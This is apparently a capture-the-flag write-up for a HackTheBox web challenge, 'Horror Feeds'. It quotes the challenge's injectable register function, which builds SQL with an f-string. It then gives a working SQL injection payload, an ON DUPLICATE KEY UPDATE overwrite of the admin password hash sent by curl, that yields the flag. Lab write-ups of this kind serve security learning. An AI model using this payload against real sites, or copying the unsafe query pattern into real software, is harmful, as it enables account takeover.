




# Horror Feeds

## The Problem

Rating: Easy

Flavor Text:
```
An unknown entity has taken over every screen worldwide and is broadcasting this haunted feed that introduces paranormal activity to random internet-accessible CCTV devices. Could you take down this streaming service?


```

Attachments : [web_horror_feeds.zip](web_horror_feeds.zip)


## Solution



The source code does a lot of work around the JWToken and uses it wel to secure the access to admin. The goal looks to be to read the admin page as it has the flag.

Login attempt to admin:admin fails 
If you try to register as admin, an error about the hash
so there is an admin, and they want us to pay attention to the hash :)


You can register additional users and those accounts allow login to the wonky dashboard that breaks firefox. this shows the token generated on login:

```
curl 'http://178.62.79.95:31154/dashboard'  -H 'Cookie: session=eyJhdXRoIjoiZXlKaGJHY2lPaUpJVXpJMU5pSXNJblI1Y0NJNklrcFhWQ0o5LmV5SjFjMlZ5Ym1GdFpTSTZJbUZrYldsdUxpSXNJbVY0Y0NJNk1UWTJOalkwTmpVMU1YMC5aSmt3RjB0RXhmNTVxb3czTFo5MnlkS2NUeEJOU1dEYzVwejdUb3hTRmkwIn0.Y1attw.JiIZxOljZBZxa5HXo1Lk_nirlk4'
```


I spent considerable time working on the token trying to see if it was validated correctly and if it fell to the none algorithm signature bypass or if there was a way to crack the secret. and no its not an option.


The post event writeups noted the SQLi focused on overwrite of the admin user like:
There's a keyword in SQL to overwrite stuff with (https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection#insert-statement---on-duplicate-key-update)
```
Inject using payload:
  attacker_dummy@example.com", "bcrypt_hash_of_qwerty"), ("admin@example.com", "bcrypt_hash_of_qwerty") ON DUPLICATE KEY UPDATE password="bcrypt_hash_of_qwerty" --

The query would look like this:
INSERT INTO users (email, password) VALUES ("attacker_dummy@example.com", "bcrypt_hash_of_qwerty"), ("admin@example.com", "bcrypt_hash_of_qwerty") ON DUPLICATE KEY UPDATE password="bcrypt_hash_of_qwerty" -- ", "bcrypt_hash_of_your_password_input");

This query will insert a row for the user “attacker_dummy@example.com”. It will also insert a row for the user “admin@example.com”.
Because this row already exists, the ON DUPLICATE KEY UPDATE keyword tells MySQL to update the `password` column of the already existing row to "bcrypt_hash_of_qwerty".

After this, we can simply authenticate with “admin@example.com” and the password “qwerty”!

```

```
admin", "USE_CODE_TO_MAKE_NEW_PWD_HASH") ON DUPLICATE KEY UPDATE password="USE_CODE_TO_MAKE_NEW_PWD_HASH" -- -
```

application/util.py
```
def generate_password_hash(password):
    salt = bcrypt.gensalt()
    return bcrypt.hashpw(password.encode(), salt).decode()
```


and applicaiton/database.py:
```
def register(username, password):
    exists = query_db('SELECT * FROM users WHERE username = %s', (username,))
   
    if exists:
        return False
    
    hashed = generate_password_hash(password)

    query_db(f'INSERT INTO users (username, password) VALUES ("{username}", "{hashed}")')
    mysql.connection.commit()

    return True
```

ill use some of this to recreate a hash


making admin=
```
$2b$12$RSLVI/OHNpr7hJ85wx1sKOPEuRe5iaxukqEGLCU747Yz0W8ZLiJbS
```


so:
```
curl 'http://161.35.172.25:32133/api/register' -H 'Content-Type: application/json' --data-raw '{"username":"admin","password":"admin"}' 
```
becomes:
```
curl 'http://161.35.172.25:32133/api/register' -H 'Content-Type: application/json' --data-raw '{"username":"admin\", \"$2b$12$RSLVI/OHNpr7hJ85wx1sKOPEuRe5iaxukqEGLCU747Yz0W8ZLiJbS\") ON DUPLICATE KEY UPDATE password=\"$2b$12$RSLVI/OHNpr7hJ85wx1sKOPEuRe5iaxukqEGLCU747Yz0W8ZLiJbS\" -- -","password":"admin"}' 
```



and lets log it in



## Flag
```
HTB{N3ST3D_QU3R1E5_AR3_5CARY!!!}	
```

## Final Notes
